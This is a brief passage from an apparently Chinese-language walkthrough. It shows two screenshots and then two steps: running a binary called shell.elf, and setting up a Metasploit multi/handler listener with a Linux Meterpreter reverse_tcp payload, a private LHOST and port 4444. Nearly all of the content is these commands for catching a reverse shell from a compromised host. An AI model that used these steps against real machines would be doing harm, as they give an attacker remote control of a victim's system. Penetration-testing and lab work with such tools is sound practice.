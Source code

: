 ![image-20250318131828241](./assets/image-20250318131828241.png)

![image-20250318132104335](./assets/image-20250318132104335.png)

- 运行

```cmd
./shell.elf
```

- 然后使用msfconsole监听

```cmd
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.7
set LPORT 4444
run
```
